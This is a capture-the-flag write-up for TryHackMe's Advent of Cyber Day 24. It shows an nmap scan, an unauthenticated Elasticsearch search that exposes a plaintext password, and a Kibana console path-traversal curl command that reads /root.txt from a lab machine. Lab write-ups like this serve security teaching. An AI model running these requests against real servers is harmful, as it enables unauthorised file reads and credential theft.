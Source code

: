 # TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 24
### References
* MuirlandOracle. (2020, January 6). MuirlandOracle. MuirlandOracle’s Blog. https://muirlandoracle.co.uk/2020/01/06/tryhackme-christmas-2019-challenge-write-up/
## Reconnaissance
```bash
$ nmap -sV -p- -vv 10.10.46.92 
PORT     STATE SERVICE   REASON  VERSION
22/tcp   open  ssh       syn-ack OpenSSH 7.4 (protocol 2.0)
111/tcp  open  rpcbind   syn-ack 2-4 (RPC #100000)
5601/tcp open  esmagent? syn-ack
8000/tcp open  http      syn-ack SimpleHTTPServer 0.6 (Python 3.7.4)
9200/tcp open  http      syn-ack Elasticsearch REST API 6.4.2 (name: sn6hfBl; cluster: elasticsearch; Lucene 7.4.0)
9300/tcp open  vrace?    syn-ack
```
## Find the password in the database
```json
$ curl -s '10.10.46.92:9200/_search?q=password' | python -m json.tool
{
    "took": 16,
    "timed_out": false,
    "_shards": {
        "total": 6,
        "successful": 6,
        "skipped": 0,
        "failed": 0
    },
    "hits": {
        "total": 1,
        "max_score": 2.0136302,
        "hits": [
            {
                "_index": "messages",
                "_type": "_doc",
                "_id": "73",
                "_score": 2.0136302,
                "_source": {
                    "sender": "mary",
                    "receiver": "wendy",
                    "message": "hey, can you access my dev account for me. My username is l33tperson and my password is 9Qs58Ol3AXkMWLxiEyUyyf"
                }
            }
        ]
    }
}
```

**Answer**: `9Qs58Ol3AXkMWLxiEyUyyf`
## Read the contents of the `/root.txt` file
curl -s '10.10.46.92:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../root.txt'
curl -s '10.10.46.92:8000/kibana-log.txt' | grep "ReferenceError"